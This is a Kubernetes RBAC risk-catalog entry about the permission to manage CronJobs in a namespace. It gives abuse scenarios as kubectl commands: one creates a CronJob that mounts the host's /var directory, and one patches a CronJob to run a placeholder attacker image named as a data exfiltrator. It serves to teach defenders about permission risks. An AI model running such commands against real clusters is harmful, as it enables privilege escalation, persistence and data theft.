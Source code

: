 ```yaml
---
id: 1040
title: "Manage CronJobs in a namespace (scheduled privileged execution, persistence)"
description: "Grants permission to create, update, or delete CronJobs within a specific namespace. This can be used to schedule the execution of potentially privileged pods, enabling privilege escalation, persistence, and tampering within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1040                                                                                                                         |
| Name          | Manage CronJobs in a namespace (scheduled privileged execution, persistence)                                                 |
| Risk Category | Elevation of Privilege                                                                                                       |
| Risk Level    | {{< risk High >}}                                                                                                            |
| Role Type     | Role                                                                                                                         |
| API Groups    | batch                                                                                                                        |
| Resources     | cronjobs                                                                                                                     |
| Verbs         | create, update, patch, delete                                                                                                |
| Tags          | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete CronJobs within a specific namespace. This can be used to schedule the execution of potentially privileged pods, enabling privilege escalation, persistence, and tampering within that namespace.

## Abuse Scenarios

1. Create a new CronJob with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: CronJob
metadata:
  name: hostpath-cronjob
spec:
  schedule: "*/5 * * * *" # Every 5 minutes
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hostpath-container
            image: busybox
            command: ["/bin/sh", "-c", "echo 'Hello from cronjob' >> /host-var/log/cron.log"]
            volumeMounts:
            - mountPath: /host-var
              name: host-var
          volumes:
          - name: host-var
            hostPath:
              path: /var
          restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing CronJob's image to a malicious one.

```bash
kubectl patch cronjob <cronjob-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/spec/jobTemplate/spec/template/spec/containers/0/image", "value": "attacker/malicious-job"}]'
# Example: kubectl patch cronjob data-sync -n production --type='json' -p='[{"op": "replace", "path": "/spec/jobTemplate/spec/template/spec/containers/0/image", "value": "attacker/data-exfiltrator"}]'

```

